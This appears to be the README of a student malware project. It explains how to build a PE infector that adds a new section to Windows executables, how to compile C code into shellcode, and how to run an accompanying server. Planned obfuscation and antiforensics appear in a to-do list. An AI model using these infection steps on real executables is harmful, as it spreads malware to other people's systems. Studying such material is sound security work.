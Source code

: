 # MALW-MCYBERS
## Infection
For the infection part we decided to use *New section* technique. This consits in adding a new section to a *.exe* file.

For this, we have the following files:
- infectPE.cpp
- PE.cpp
- PE.h
- processCreator.cpp
- shellcodeExecuter.cpp

### Compilation

#### Infect a file
```sh
> g++ -c PE.cpp -std=c++17
> g++ -c infectPE.cpp -std=c++17
> g++ -o infectPE.exe infectPE.o
> .\infectPE.exe .\executable_to_infect.exe .\out.exe
```

#### Create shellcode
From C to assembly.
```sh
$ ShellcodeCompiler_x64.exe -r Source.cpp -o Shellcode.bin -a assembly_code.asm -p win_x86
```
Assembly to shellcode.
```sh
$ nasm -f win32 assembly_code.asm 
$ objcopy -j .text -O binary assembly_code.obj temp_file.bin
$ hexdump -v -e '"\\" 1/1 "x%02x"' temp_file.bin
```

#### Run sever
```sh
$ sudo node index.js
```

### To Do
- [ ] Update downloaded file path and name
- [ ] Payload of exe file
- [ ] Obfuscation
- [ ] Antiforensics

### Old versions
```sh
> g++ -c processCreator.cpp
> g++ -o procesCreator.exe processCreator.o
> .\processCreator.exe executable_to_execute.exe

> g++ -c shellcodeExecuter.cpp
> g++ -o shellcodeExecuter.exe shellcodeExecuter.o
> .\shellcodeExecuter.exe
```
